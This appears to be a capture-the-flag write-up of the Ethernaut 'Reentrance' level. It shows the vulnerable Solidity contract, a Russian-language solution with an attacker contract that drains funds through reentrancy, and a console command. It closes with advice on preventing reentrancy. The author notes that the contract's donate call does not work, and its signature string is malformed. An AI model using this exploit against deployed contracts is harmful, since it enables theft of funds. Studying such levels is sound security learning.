 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg)

The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Solution:

Изначально на контракте: 0.001 Эфира. это можно понять с помощью `await getBalance(instance)`
теперь пишем код, который реализует атаку Reentrancy:
```sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
  function withdraw(uint _amount) external;
  function balanceOf(address _who) external  view returns (uint balance);
  function donate(address _to) external payable;
}

contract PWN {
  IReentrance instance;
  address instance_addr;
  address owner = 0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5;
  constructor (address tmp_) {
    instance_addr = tmp_;
    instance = IReentrance(tmp_);
  }
  bool public first;
  function donate() external {
    (first, ) = instance_addr.call{value: 1000000000000000, gas: gasleft()}(abi.encodeWithSignature("donate(address _to)", owner));
  }

  function withdraw() external{
    instance.withdraw(1000000000000000);
  }

  uint count = 0;

  receive() external payable { 
    if(count == 1) {
      instance.withdraw(1000000000000000);
    } else {
      count += 1;
    }
  }

  function selfd() external {
    selfdestruct(payable(owner));
  }

}

```

функция `donate` почему-то не отрабатывает, но задонатить можно и через консоль: 
`await contract.donate("0x726857c67740Eb743da3418E2007Ecb3705A5340", {value:1000000000000000, from:"0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5"})`
а дальше просто вызываем `withdraw` 

___
In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
